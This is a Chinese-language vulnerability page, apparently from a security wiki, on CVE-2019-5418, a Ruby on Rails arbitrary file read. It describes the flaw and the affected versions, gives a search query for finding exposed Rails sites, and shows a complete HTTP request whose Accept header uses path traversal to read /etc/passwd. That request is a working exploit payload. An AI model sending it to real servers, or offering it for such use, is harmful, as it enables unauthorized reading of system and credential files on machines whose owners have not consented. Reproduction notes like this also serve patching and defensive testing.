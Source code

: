 # Rails Accept 任意文件读取漏洞 CVE-2019-5418

## 漏洞描述

Ruby on Rails是一个 Web 应用程序框架,是一个相对较新的 Web 应用程序框架，构建在 Ruby 语言之上。这个漏洞主要是由于Ruby on Rails使用了指定参数的render file来渲染应用之外的视图，我们可以通过修改访问某控制器的请求包，通过“…/…/…/…/”来达到路径穿越的目的，然后再通过“{{”来进行模板查询路径的闭合，使得所要访问的文件被当做外部模板来解析。

## 漏洞影响

<a-checkbox checked>Rail <= 5.2.2.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Ruby On Rails"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://cdn.nlark.com/yuque/0/2022/png/2117730/1656041292346-1069b91e-aa5e-4d53-821a-9150720e9b5e.png)

验证请求包

```php
GET /robots HTTP/1.1
Host: 127.0.0.1:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![img](/assets/PeiQi-Wiki/img/1656045922866-e3e54d8e-a8a7-45e9-bdef-be60311151cb.png)
